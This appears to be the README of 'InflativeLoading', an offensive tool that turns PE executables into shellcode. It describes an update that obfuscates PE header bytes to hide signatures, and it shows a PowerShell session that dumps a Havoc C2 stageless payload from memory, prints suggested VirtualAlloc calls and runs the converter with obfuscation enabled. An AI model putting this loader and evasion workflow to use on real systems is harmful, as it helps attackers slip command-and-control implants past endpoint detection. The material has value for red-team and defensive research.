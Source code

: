 # InflativeLoading
Article: <https://winslow1984.com/books/malware/page/reflectiveloading-and-inflativeloading>

## Major Update History
In this section, major updates are provided. Major updates do include added supports or features.

### 4/11/2024 Added PE Signature Obfuscation
Only a few bytes in the PE header, such as `e_lfanew`, RVA of Import Directory, are essential to complete the loading process. Therefore, other bytes can be overwritten with random ones to hide PE header signatures.

After all the processes are completed, even these bytes will be overwritten for complete obfuscation. For instance, from the screenshot below, we can notice that the PE header is mostly obfuscated, but `e_lfanew` remains unobfuscated for loading purposes. But after the loading process, `e_lfanew` is also obfuscated. 

![image](/screenshot/header_obfuscation.jpg)

**However, depending on the selected program, obfuscation may not be compatible with it. You should know how does the program work. For example, Havoc stateless DLL payload is not compatible with the obfuscation feature because the DLL also makes use of the PE header.**

![image](/screenshot/havocdll.jpg)

Havoc stageless EXE payload works well with obfuscation:

```powershell
PS C:\Users\Administrator\Desktop\dev\inflativeloading> .\DumpPEFromMemory.exe .\havoc.exe havoc.bin
[+] The file is an EXE file
[+] Process PID: 26772
[+] PEB Address:000000E87CB1D000
[+] Image Base Address:00007FF7BB8A0000
[+] e_lfanew is 0x80
[+] Size Of The Image : 0x1e000
[+] Size Of Optional Header : 0xf0
[+] Size Of text Section : 0x18000
[+] Size of other sections of mapped .\havoc.exe is 0x5000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0x18000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0x18000, 0x5000, 0x3000, 0x20);

[+] 3 iterations are needed

[+] Data successfully written to havoc.bin. Total bytes read: 0x1e000
PS C:\Users\Administrator\Desktop\dev\inflativeloading> python .\InflativeLoading.py -f .\havoc.bin -e true -o true -b havocsc.bin

██╗███╗   ██╗███████╗██╗      █████╗ ████████╗██╗██╗   ██╗███████╗
██║████╗  ██║██╔════╝██║     ██╔══██╗╚══██╔══╝██║██║   ██║██╔════╝
██║██╔██╗ ██║█████╗  ██║     ███████║   ██║   ██║██║   ██║█████╗
██║██║╚██╗██║██╔══╝  ██║     ██╔══██║   ██║   ██║╚██╗ ██╔╝██╔══╝
██║██║ ╚████║██║     ███████╗██║  ██║   ██║   ██║ ╚████╔╝ ███████╗
╚═╝╚═╝  ╚═══╝╚═╝     ╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═══╝  ╚══════╝
```